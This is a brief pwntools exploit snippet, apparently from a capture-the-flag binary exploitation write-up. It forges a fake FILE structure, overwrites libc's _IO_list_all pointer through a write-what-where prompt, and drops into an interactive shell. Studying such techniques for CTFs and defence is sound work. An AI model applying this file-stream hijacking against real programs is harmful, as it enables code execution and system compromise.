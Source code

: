 ```python
fake = flat({
    0:bytes(fake),
    0xe0:fp_address                                     #cond.4
})

payload = p64(fp_address) + p64(0) + bytes(fake)

p.recvuntil(b'Write where?\n')
p.send(p64(libc.sym['_IO_list_all']))

# gdb.attach(p, 'b _IO_flush_all_lockp')
p.send(bytes(payload))

p.interactive()
```

